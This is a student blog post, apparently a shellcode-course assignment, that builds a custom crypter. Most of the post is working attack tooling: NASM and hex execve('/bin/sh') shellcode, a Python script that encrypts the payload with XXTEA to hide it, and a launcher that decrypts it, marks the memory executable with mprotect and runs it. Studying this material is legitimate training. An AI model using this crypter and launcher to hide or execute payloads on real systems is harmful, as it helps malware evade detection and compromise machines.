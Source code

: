 # Assignment 7

The seventh and last assignment is to create a custom crypter like the one
shown in the "crypters" video. I'm free to use any existing encryption schema
and I can use any programming language.

## Choosing the encryption scheme

For this last assignment I want to use something quick and reliable to encrypt
any evil payload. I started looking at
[TEA](https://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm) for its
characteristics and implementations.

I choose to use [XXTEA](https://en.wikipedia.org/wiki/XXTEA) that it is an
evolution of original algorithm to correct all weaknesses found.

This is a symmetric block cipher and the key must be 16 bytes long.

## Environment

I will use python as programming language and the
[xxtea](https://pypi.org/project/xxtea) package that it is available with the
following command:

> pip install xxtea

## Encrypt

The default behaviour is to select a 16 bytes long random key and use xxtea library facilities to encrypt the default shellcode that is the standard execve() shellcode used in assignment 4.

{% highlight asm %}

; Filename: 	execve.nasm
; Author:	Paolo Perego <paolo@codiceinsicuro.it>  
; Website:  	https://codiceinsicuro.it
; Blog post:  	https://codiceinsicuro.it/slae/
; Twitter:   	@thesp0nge
; SLAE-ID:    	1217
; Purpose:	This is the default payload for the customer encoder demo. It
; 		will execute "/bin/sh" using execve() system call.

global _start			

section .text

_start:
	xor eax, eax		; init EAX to 0
	push eax		; pushing 0 to the stack to be used as NULL
				; ending character for /bin/sh string
	
	; execve is defined as #define __NR_execve 11 in 
	; /usr/include/i386-linux-gnu/asm/unistd_32.h:
	;
	; system call prototype is: 
        ; int execve(const char *filename, char *const argv[], 
	; 		char *const envp[]);

	push 0x68732f2f		; pushing //bin/sh into the stack
	push 0x6e69622f		; the init double / is for alignment purpose

	mov ebx, esp		; pointer to *filename

	; I will optimize further my execve-stack shellcode. Since I don't care
	; about passing parameters to my shell and to pass the environment
	; pointer, I can initialize to zero both ECX and EDX registers.
	;
	; This will be equivalent to the call: execve("/bin/sh", 0, 0) that it
	; is legit.
	xor ecx, ecx
	xor edx, edx

	mov al, 0xb		; execve = 11
	int 0x80

{% endhighligh %}

However, the crypter tool accepts also a custom encryption key and a custom
shellcode to be used instead of the default one.

{% asciicast 198703 %}

Here you can find the source code for the crypter script:

{% highlight python %}

#!/usr/bin/env python

import random, string, getopt, xxtea, sys

def help():
    print sys.argv[0] + " [options]"
    print "Valid options:"
    print "\t-h, --help: show this help"
    print "\t-k, --key: specify the encryption key"
    print "\t-s, --shellcode: specify the shellcode to be used"

    return 0

def generate_key():
    k=''.join(random.choice(string.ascii_uppercase + string.ascii_lowercase + string.digits) for _ in range(16));
    return k;

def encrypt(shellcode, key):
    enc = xxtea.encrypt(shellcode, key);
    return enc;

def main(argv):
    # Default behaviour is to generate a random key and to use an
    # execve("/bin/sh") shellcode
    key = generate_key();
    shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80";

    try:
        opts, args=getopt.getopt(argv, "hk:s:", ["help", "key", "shellcode"] )
    except getopt.GetoptError:
        help()
        sys.exit(1)

    for opt, arg in opts:
        if opt in ('-h', '--help'):
            help()
            sys.exit(0)
        elif opt in ('-k', '--key'):
            key=arg
            if (len(key) != 16):
                print "The encryption key must be 16 byte long"
                help()
                sys.exit(-2)
        elif opt in ('-s', '--shellcode'):
            shellcode=arg.replace('\\x', '').decode('hex')

    print "key: " + key;
    enc = encrypt(shellcode, key)
    sys.stdout.write("encrypted shellcode: \\x");
    sys.stdout.flush();
    print '\\x'.join(map("%2.2x".__mod__, map(ord, enc)));

if __name__ == "__main__":
    main(sys.argv[1:])


{% endhighligh %}

## Decrypt and launch

The launcher script is responsible for decrypting a given payload using a given
decryption key. It may be redundant to recall but, since XXTEA is a Symmetric
Cryptography algorithm, the decryption key is the one used to crypt the
shellcode.

{% highlight python %}

#!/usr/bin/env python
# Got rid of SEGFAULT using the solution provider here:
# https://stackoverflow.com/questions/19326409/python-ctype-segmentation-fault

import random, string
import xxtea
import sys, time
import getopt
import fileinput
from ctypes import *

def help():
    print sys.argv[0] + " [options]"
    print "Valid options:"
    print "\t-h, --help: show this help"
    print "\t-k, --key: specify the decryption key"
    print "\t-e, --encrypted-shellcode: specify the encrypted payload"

    return 0

def decrypt(enc, key):
    return xxtea.decrypt(enc, key)

def main(argv):

    key = ""
    enc = ""

    try:
        opts, args=getopt.getopt(argv, "hk:e:", ["help", "key", "encrypted-shellcode"] )
    except getopt.GetoptError:
        help()
        sys.exit(1)

    for opt, arg in opts:
        if opt in ('-h', '--help'):
            help()
            sys.exit(0)
        elif opt in ('-k', '--key'):
            key=arg
        elif opt in ('-e', '--encrypted-shellcode'):
            enc = arg


    if not key:
        print "Please specify a decryption key using the -k flag";
        help();
        sys.exit(-2);

    if not enc:
        print "Please specify a payload to decrypt using the -e flag";
        help();
        sys.exit(-3);



    enc_b= enc.replace('\\x', '').decode('hex')

    shellcode_data=decrypt(enc_b, key);
    sys.stdout.write("decrypted shellcode: \\x")
    sys.stdout.flush()
    print '\\x'.join(map("%2.2x".__mod__, map(ord, shellcode_data)))

    print "launching the shellcode..."


    shellcode=create_string_buffer(shellcode_data)
    function  = cast(shellcode, CFUNCTYPE(None))

    addr = cast(function, c_void_p).value
    libc = CDLL('libc.so.6')
    pagesize = libc.getpagesize()
    addr_page = (addr // pagesize) * pagesize

    for page_start in range(addr_page, addr+len(shellcode_data), pagesize):
        assert libc.mprotect(page_start, pagesize, 0x7) == 0
    function()
    
if __name__ == "__main__":
    main(sys.argv[1:])
{% endhighligh %}

Launching the shellcode is **really** hard stuff. I've to fight against tons of
SEGFAULTS and this post saved me in getting rid of non executable bit
protection for memory regions:
[https://stackoverflow.com/questions/19326409/python-ctype-segmentation-fault](https://stackoverflow.com/questions/19326409/python-ctype-segmentation-fault).

See it in action:

{% asciicast 198715 %}
